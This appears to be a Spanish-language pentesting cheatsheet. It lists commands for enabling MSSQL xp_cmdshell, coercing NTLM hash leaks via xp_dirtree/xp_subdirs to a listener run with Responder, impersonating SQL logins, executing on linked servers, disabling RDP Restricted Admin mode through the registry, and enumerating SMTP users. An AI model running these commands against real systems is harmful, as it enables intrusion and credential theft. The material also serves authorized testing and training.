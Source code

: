 # Cheatsheet ⚙

## MSSQL 📄

| Cambiar Permisos Para Ejecutar Comandos 👩‍💻 |
|:---:|
| `sp_configure "show advanced option", 1` | 
| `RECONFIGURE` | 
| `sp_configure "xp_cmdshell", 1` | 
| `RECONFIGURE` | 

| Dumpeando Hashes 👩‍💻 |
|:---:|
| `responder -I [Interface]` | 
| `EXEC master..xp_subdirs '\\[IP]\[Directory]'` | 
| `EXEC master..xp_dirtree '\\[IP]\[Directory]'` | 

| Impersonar 🎭 |
|:---:|
| `EXECUTE AS LOGIN = '[Username]'` | 
| `SELECT srvname, isremote FROM sysservers;` | 
| `EXECUTE('[SENTENCIA SQL]') AT "[FULL NAME SERVER LINKED]"` | 


## RDP 💻
| Deshabilitar El Modo Restringido de Administrador 👩‍💻 |
|:---:|
| `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f` |

## SMTP 📧
| Enumerar Usuarios SMTP 👩‍💻 |
|:---:|
| `smtp-user-enum -M RCPT -U [UserList.txt] -D [Domain] -t [IP]` |
